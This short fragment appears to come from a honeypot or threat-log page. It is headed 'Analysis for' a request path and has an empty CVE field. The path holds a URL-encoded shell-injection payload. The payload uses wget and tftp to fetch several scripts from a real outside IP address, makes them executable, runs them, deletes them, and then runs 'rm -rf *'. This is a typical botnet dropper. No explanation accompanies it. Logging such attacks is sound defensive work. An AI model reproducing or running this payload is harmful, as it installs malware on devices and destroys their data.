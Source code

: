 # Analysis for /shellcd%20/tmp%20%7C%7C%20cd%20/run%20%7C%7C%20cd%20/;%20wget%20http://107.175.194.3/daqwbins.sh;%20chmod%20777%20daqwbins.sh;%20sh%20daqwbins.sh;%20tftp%20107.175.194.3%20-c%20get%20daqwtftp1.sh;%20chmod%20777%20daqwtftp1.sh;%20sh%20daqwtftp1.sh;%20tftp%20-r%20daqwtftp2.sh%20-g%20107.175.194.3;%20chmod%20777%20daqwtftp2.sh;%20sh%20daqwtftp2.sh;%20rm%20-rf%20daqwbins.sh%20daqwtftp1.sh%20daqwtftp2.sh;%20rm%20-rf%20*
## CVE: 